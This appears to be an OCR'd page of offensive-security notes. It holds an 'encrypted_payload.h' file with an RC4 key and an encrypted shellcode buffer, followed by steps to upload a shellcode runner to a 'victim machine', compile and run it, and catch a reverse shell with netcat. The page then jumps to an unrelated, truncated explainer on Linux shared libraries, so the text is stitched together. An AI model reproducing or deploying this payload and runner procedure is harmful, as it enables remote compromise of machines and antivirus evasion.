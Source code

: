 Example encrypted_payload.h
```c
#ifndef BUFFER_H
#define BUFFER_H

unsigned char key[] = "B@$7P.omqDXyKIfw";
unsigned char buf[] = 
"\x8b\x7d\x92\xee\x3a\xb6\x02\xc3\x24\x6b\x80\x05\x8d\x4c\xe1\x18"
"\x2a\x9f\xde\x8c\x0e\x91\x77\x9f\x92\x51\xff\x7f\x76\xf3\x52\xb7"
"\xdd\x48\x25\x64\x46\x37\x14\x15\x04\x4d\xf2\xe5\x85\xc3\xcf\x18"
"\xe8\xe6\xbc\xed\x42\xe5\x06\x0d\x15\xef\xea\x6b\xff\x74\xc8\xb1"
"\x25\x40\xe8\x90\xc8\x42\x3b\x3b\x66\x50";

#define BUF_SIZE sizeof(buf)
#endif

```

- ShellCodeRC4Runner.c
	- upload both ShellCodeRC4Runner.c and encrypted_payload.h to the victim machine
	- compile `gcc -o runner ShellCodeRC4Runner.c`
	- configure netcat or other software to catch the reverse shell
	- `./runner` on the victim machine

*Note:* this doesn't run in the background without sending to the background.


Shared libraries in Linux are a way to share code among multiple programs, reducing the amount of duplicated code and saving system resources. They provide a mechanism for executable files to use functions and other resources that are stored in external files, which are loaded into memory when the program runs. Here are some key concepts and details about shared libraries in Linux:

### Key Concepts

1. **Shared Library Files**:
   - Shared libraries are typically files with `.so` (shared object) extensions, e.g., `libexample.so`.

2. **Dynamic Linking**:
   - Programs using shared libraries are dynamically linked. This means that the linking of the shared library occurs at runtime rather than at compile time.

3. **Advantages**:
   - **Reduced Memory Usage**: Multiple programs can share a single copy of the library code in memory.
   - **Modularity**: Libraries can be updated independently of the applications that use them.
   - **Smaller Executable Size**: Executables are smaller because they do not need to contain library code.

### Creating and Using Shared Libraries

#### Creating a Shared Library

1. **Write the Source Code**:
   - Create source files for the functions you want to include in the library.
